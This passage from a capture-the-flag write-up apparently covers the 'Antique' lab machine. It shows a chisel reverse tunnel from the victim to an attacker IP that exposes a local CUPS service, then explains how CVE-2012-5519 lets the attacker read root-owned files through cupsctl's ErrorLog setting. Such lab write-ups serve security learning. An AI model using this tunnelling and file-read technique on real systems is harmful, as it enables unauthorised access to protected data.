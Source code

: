 <img src="{{ site.img_path }}/antique_writeup/Antique_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I can create the tunnel and access the exposed web service on port **631**, which happens to be **CUPS**. If I search with `searchploit` some exploit that can help me to exploit some vulnerability for version **1.6.1**, I find some scripts, but after analyzing them I don't think they will help me. But if I search the internet I find a project on Github, which develops a module for **Metasploit** that allows privilege escalation, **[cups_root_file_read.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb){:target="_blank"}**. I will not automate the attack but I can analyze the code to understand roughly how it exploits the vulnerability **[CVE-2012-5519](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2012-5519){:target="_blank"}** to perform the attack.
> **Attacker Machine**:

```bash
./chisel server -reverse -p 1234
```

> **Victime Machine**:

```bash
./chisel client 10.10.14.29:1234 R:631:127.0.0.1:631      # :(
./chisel client 10.10.14.29:1234 R:1631:127.0.0.1:631
```

> **CUPS** is the standards-based, open source printing system developed by Apple Inc. for OS X and other UNIX-like operating systems.

> **Attacker Machine**:

```bash
lsof -i:631

searchsploit CUPS 1.6.1
```

<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_29.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

It is only necessary to analyze a little the script, to have a panoramic of what it is carrying out, there is a call to a function `cmd_exec`, to which it passes a variable, that has as value the absolute path of the binary `cupsctl`. Then this binary is executed passing it in the parameter `ErrorLog` the private file that we want to read. I can also observe the path to the `error_log` log from the browser (**'/var/log/cups/error_log'*). All this possible, thanks to the vunlerability and also because we belong to the **lpadmin** group, now I begin to join the loose ends that one is leaving in the enumeration phase. I can now read all the sensitive files on the system, even the `root` flag.

